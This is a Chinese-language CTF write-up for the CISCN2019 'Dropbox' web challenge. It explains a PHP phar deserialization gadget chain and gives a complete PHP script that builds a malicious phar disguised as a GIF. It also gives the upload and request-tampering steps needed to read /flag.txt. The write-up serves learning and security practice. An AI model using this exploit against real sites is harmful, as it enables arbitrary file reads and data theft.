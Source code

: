 user类里的sql语句用了预编译，基本没有利用的可能

File类的close方法有个file_get_content()，如果能控制filename，也许可以读出flag；
再看一下如何触发，User类的_destruct()方法会调用close()
Filelist类存在可利用的call方法`$this->results[$file->name()][$func] = $file->$func();`，并且该类本身没有close方法

那么定义一个user类的对象，其db属性为类Filelist的实例，`$this->db->close();`就是执行Filelist->close()，但Filelist没有close方法，由此触发FileList->_call()，进而遍历文件找close方法，找到File->close()就会执行file_get_contene，令其filename为flag，然后利用FileList->_destruct()输出结果即可

顺序就是：
`user->__destruct()  --->  Filelist->close()  --->  Filelist->__call('close')  --->  File->close('/flag.txt')  --->  results=file_get_contents('flag.txt')  --->   FileList->_destruct()`

而在File类的open方法中调用了file_exists($filename)，且可以上传文件（虽然有白名单不能直接传phar，但phar伪协议解析时会将gif当作phar解析，因此改成gif后缀即可）那么利用一下phar反序列化

payloiad：

```php
<?php
class User {
    public $db;
}
class File {
    public $filename;
}
class FileList {
    private $files;
    public function __construct() {
        $file = new File();
        $file->filename = "/flag.txt";
        $this->files = array($file);
    }
}
$a = new User();
$a->db = new FileList();
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$o = new User();
$o->db = new FileList();
$phar->setMetadata($a);
$phar->addFromString("exp.txt", "exp");
$phar->stopBuffering();
?>
```

然后本地访问php即可生成phar文件,修改后缀为gif
上传，然后点击删除，抓包，改文件名为`phar://phar.gif`即可
（ps：这里要注意在php.ini里把phar.readonly 必须设置为 Off，还有把前面的注释符 `;` 去掉）

![](https://i.loli.net/2021/07/30/LZWsPwxT8uj3zMN.png)

> [CISCN2019 华北赛区 Day1 Web1 Dropbox - 云+社区 - 腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1813568)
>
> phar攻击的利用前提：
>
> 1.phar文件要能够上传到服务器端。
>
> 2.要有可用的魔术方法作为“跳板”。
>
> 3.文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤。
>
> 可以进行利用的函数：
>